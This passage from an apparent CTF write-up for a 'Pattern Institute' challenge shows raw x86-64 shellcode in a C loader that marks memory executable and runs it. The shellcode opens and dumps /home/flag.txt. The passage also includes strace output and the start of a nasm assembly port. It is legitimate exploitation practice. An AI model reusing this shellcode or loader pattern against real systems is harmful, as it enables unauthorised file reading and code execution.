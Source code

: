 ```console
┌──(user@kali)-[/media/sf_CTFs/intent/Pattern_Institute]
└─$ f="solve"; ./gen-shellcode.sh solve.s > $f.c; gcc -static $f.c -o $f
```

However, the build instructions in the repository create the following source code:

```c
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x49\xbb\x61\x67\x2e\x74\x78\x74\x00\x00\x41\x53\x49\xbb\x2f"
                   "\x68\x6f\x6d\x65\x2f\x66\x6c\x41\x53\x48\x8d\x3c\x24\x48\x31"
                   "\xf6\x04\x02\x0f\x05\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff"
                   "\x48\x31\xd2\x80\xc2\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2"
                   "\x41\x80\xc2\x01\x48\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe"
                   "\xc2\x48\x89\xc6\x48\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe"
                   "\xc0\x0f\x05\x48\x31\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}

```

When compiled with GCC, this creates a program which uses extra syscalls such as `brk`, as seen when running `strace`:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Pattern_Institute]
└─$ strace ./solve
execve("./solve", ["./solve"], 0x7ffe49f0d970 /* 32 vars */) = 0
brk(NULL)                               = 0xf65000
brk(0xf65d80)                           = 0xf65d80
arch_prctl(ARCH_SET_FS, 0xf65380)       = 0
uname({sysname="Linux", nodename="kali", ...}) = 0
readlink("/proc/self/exe", "/media/sf_CTFs/intent/Pattern_In"..., 4096) = 45
brk(0xf86d80)                           = 0xf86d80
brk(0xf87000)                           = 0xf87000
mprotect(0x4a9000, 12288, PROT_READ)    = 0
mprotect(0x4ac000, 4096, PROT_READ|PROT_EXEC) = 0
open("/home/flag.txt", O_RDONLY)        = -1 ENOENT (No such file or directory)
mmap(NULL, 65535, PROT_READ, MAP_SHARED, -2, 0) = -1 EBADF (Bad file descriptor)
write(0, 0xfffffffffffffff7, 65535)     = -1 EFAULT (Bad address)
exit(0)                                 = ?
+++ exited with 0 +++
```

To get a minimal executable, we should use a tool such as `nasm`. This requires us to port the assembly syntax to Intel syntax:

```assembly
    
    global    _start
    section   .text
	
_start:  
    
    xor rax, rax ; Added since al is used below without initialization
    
    ; open
	mov  r11, 0x7478742e6761       ; ag.txt
	push r11
	mov  r11, 0x6c662f656d6f682f   ; /home/fl
	push r11
	lea  rdi, [rsp + 0]
```